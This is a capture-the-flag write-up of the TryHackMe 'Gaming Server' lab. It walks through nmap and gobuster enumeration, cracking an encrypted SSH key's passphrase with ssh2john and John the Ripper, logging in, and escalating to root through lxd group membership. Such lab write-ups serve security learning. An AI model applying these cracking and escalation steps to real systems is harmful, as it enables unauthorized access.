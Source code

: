 ```yaml
---
title: TryHackMe - Gaming Server 
category: writeup
tags: tryhackme
---
```


# Summary

Gaming server is a easy machine which requires some basic enumeration to find a username in the page's source and doing some dirbusting to find a encrypted ssh-key and a password list which is used to crack the passphrase for the ssh-key. To escalate privileges we abuse the lxd group permissions to mount the host file system inside the container.

# Enumeration

## NMAP

Running a NMAP scan reveals the following:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCrmafoLXloHrZgpBrYym3Lpsxyn7RI2PmwRwBsj1OqlqiGiD4wE11NQy3KE3Pllc/C0WgLBCAAe+qHh3VqfR7d8uv1MbWx1mvmVxK8l29UH1rNT4mFPI3Xa0xqTZn4Iu5RwXXuM4H9OzDglZas6RIm6Gv+sbD2zPdtvo9zDNj0BJClxxB/SugJFMJ+nYfYHXjQFq+p1xayfo3YIW8tUIXpcEQ2kp74buDmYcsxZBarAXDHNhsEHqVry9I854UWXXCdbHveoJqLV02BVOqN3VOw5e1OMTqRQuUvM5V4iKQIUptFCObpthUqv9HeC/l2EZzJENh+PmaRu14izwhK0mxL
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEaXrFDvKLfEOlKLu6Y8XLGdBuZ2h/sbRwrHtzsyudARPC9et/zwmVaAR9F/QATWM4oIDxpaLhA7yyh8S8m0UOg=
|   256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOLrnjg+MVLy+IxVoSmOkAtdmtSWG0JzsWVDV2XvNwrY
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
```

## Port 80

Checking port 80 reveals a page with a lot of dummy text. 

Checking the web page source reveals a interesting comment that says:

> john, please add some actual content to the site! lorem ipsum is horrible to look at

This could be a potential username that can be used later.

Fuzzing the directories using gobuster reveals the following:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.35.125/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/21 21:38:43 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/robots.txt (Status: 200)
/secret (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2020/09/21 21:41:03 Finished
===============================================================
```

Checking the uploads directory reveals a word list which possibly contains a list that we might use for doing some sort of bruteforcing.

Checking secret reveals a encrypted ssh key and we most likely would need to use the wordlist to crack the passphrase.

![WGET](/assets/img/gamingserver/wget.png)

However, in order to crack a ssh-key we need to convert it to a form than johntheripper will be able to understand. In order to do this we use a python script named `[ssh2john.py](http://ssh2john.py)` which comes with the johntheripper package.

```bash
/usr/share/john/ssh2john.py secretKey > ssh-hash
john --wordlist=/usr/share/wordlists/rockyou.txt ssh-hash
```

![Crack](/assets/img/gamingserver/crack.png)

John returns the password letmein.

## SSH

Logging in with ssh with the username `john` we found earlier and passphrase for the key `letmein` we are able to log in.

```bash
ssh -i secretKey john@10.10.35.125
```

## Privilege Escalation

Checking the current groups that the user is a part of reveals an interesting group `lxc` this group from past experience allows privilege escalation commonly done by mounting the rootfs inside a container and then interacting with the container and getting access to all the fs.

Following the privilege escalation steps in this article allows us to use a lxd container to mount the host machines rootfs inside the container giving us access to the root flag.

[Lxd Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/)
